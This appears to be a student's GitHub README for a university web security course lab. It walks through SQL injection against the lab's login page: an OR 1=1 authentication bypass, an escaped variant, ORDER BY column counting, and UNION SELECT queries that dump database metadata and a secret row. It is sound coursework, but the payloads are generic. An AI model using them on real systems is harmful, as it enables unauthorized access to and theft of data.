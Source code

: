 # MP2 - WebSec
##### Instructor: Adam Bates & Ling Ren
CP1 Deadline --- Wednesday, September 27th, 6:00PM

CP2 Deadline --- Thursday, October 6th, 6:00PM

## Project Setup
1. Download VMWare
2. Download Ubuntu 18.04 LTS (CS461 Virtual Machine) at [here](https://uofi.box.com/s/aqaixm5igvqbyxys7gpswxgcsf7nyqo6)
3. Setup the VM in VMWare 

## Build Project
None

## Implementation
#### 2.2.1.1
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
' OR 1=1 -- 
```
#### 2.2.1.2
Type the following command in `Username`
```
victim
```
Type the following command in `Password`
```
\' OR 1=1 -- 
```
#### 2.2.1.3
Write a python script to mine `md5` hash

Type the following command to run the python script `2.2.1.3.py`
```
./2.2.1.3.py
```
The `passwd` got from the python script are
* `61873882145751551400929987756087961` [35-digit]
* `1107388038190758764683658965752877062` [37-digit]


#### 2.2.1.4
##### 1. Figure out how many columns there are in the table with the following command
```
' OR 1=1 ORDER BY 1; -- 
' OR 1=1 ORDER BY 2; -- 
' OR 1=1 ORDER BY 3; -- 
' OR 1=1 ORDER BY 4; -- 
' OR 1=1 ORDER BY 5; -- 
```
The last command will give you an error. Therefore, there are 4 columns in the table.

##### 2. Use the following command to get the `Database Name`
```
' UNION SELECT NULL,NULL,NULL,DATABASE(); -- 
```

##### 3. Use the following command to get the `Database Version`
```
' UNION SELECT NULL,NULL,NULL,version(); -- 
```
Or use the following alternative command
```
' UNION SELECT NULL,NULL,NULL,@@version; -- 
```

##### 4. Use the following command to get all `Table` in the Database
```
' UNION SELECT NULL,NULL,NULL,GROUP_CONCAT(TABLE_NAME) FROM information_schema.TABLES WHERE table_schema='proj2_inject3'; --
```

##### 5. Use the following command to get all `Column` in Table `HINT`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='HINT'; -- 
```
The `column_name` got from Table `HINT` are _id_ and _message_

Use the following command to get `message` from Table `HINT` with `id=1`
```
' UNION SELECT NULL,NULL,NULL,message FROM HINT WHERE id='1'; -- 
```
The `message` from table `HINT` with `id=1` is _go to table SECRET and get a secret string from row with your md5(netid)_

Use the following command to get all `Column` in Table `SECRET`
```
' UNION ALL SELECT NULL,NULL,NULL,GROUP_CONCAT(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='SECRET'; -- 
```
The `column_name` got from Table `SECRET` are _hash_, _id_, and _secret_

Use the following command to get `md5(netid)`
```
./md5.py
```

Then, use the following command to get `secret` from Table `SECRET` with the `hash=md5(netid)`
```
' UNION SELECT NULL,NULL,NULL,secret FROM SECRET WHERE hash='3168622a73961f1d17b1a105be567177'; -- 
```

## Developers
* Hongbo Zheng [NetID: hongboz2]
* Max Song [NetID: mcsong2]

